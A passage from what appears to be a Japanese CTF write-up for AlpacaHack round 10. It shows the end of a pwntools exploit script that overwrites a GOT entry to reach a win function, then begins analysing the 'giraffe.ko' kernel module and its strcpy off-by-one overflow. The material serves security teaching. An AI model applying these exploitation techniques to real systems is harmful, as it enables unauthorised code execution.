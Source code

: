 ```python
# create fake std::vector<int> points to GOT
target_got = exe.got["_ZNSolsEPFRSoS_E"] - 8
overwrite = exe.symbols["_Z3winv"]

offset_to_T = (exe.symbols["T"] - exe.symbols["x"]) // 4

payload = b""
for _i in range(0x10):
    payload += ttop()

# write payload to overwrite got

payload += push(0)
payload += push(0)
payload += push(overwrite)
payload += push(0)

while num_of_queries < (offset_to_T - 1):
    payload += ttop()

payload += push(((target_got + 0) >> 0) & 0xffffffff)
payload += push(((target_got + 0) >> 32) & 0xffffffff)
payload += push(((target_got + 0) >> 0) & 0xffffffff)
payload += push(((target_got + 0) >> 32) & 0xffffffff)
payload += push(((target_got + 0x100) >> 0) & 0xffffffff)
payload += push(((target_got + 0x100) >> 32) & 0xffffffff)

r.sendline(str(num_of_queries).encode())
r.send(payload)

r.interactive()
```

# giraffe.ko

カーネルモジュールのソースコードが渡されます。[チャレンジ](https://alpacahack.com/ctfs/round-10/challenges/giraffe)

モジュールの Makefile を見ると、スタックプロテクタが軒並み無効化されています。スタック問題っぽいです。
また、SMAP,KASLR も無効化されています。慈悲を感じますね。

実際のモジュールを見てみましょう。モジュールの内容は単純です。giraffe 専用の kmem_cache(size=BUF_SIZE=0x20)を作成し、open するとそこから allocation されます。アドレスは`filp->private_data`に格納されます。その領域への read,write も実装されています。

脆弱性はここです。

```c
static ssize_t module_write(struct file *filp, const char __user *buf, size_t count, loff_t *f_pos) {
  char tmp[BUF_SIZE+1] = { 0 };
  count = count > BUF_SIZE ? BUF_SIZE : count;

  if (copy_from_user(tmp, buf, count))
    return -EINVAL;

  strcpy(filp->private_data, tmp);

	return strlen(tmp);
}
```
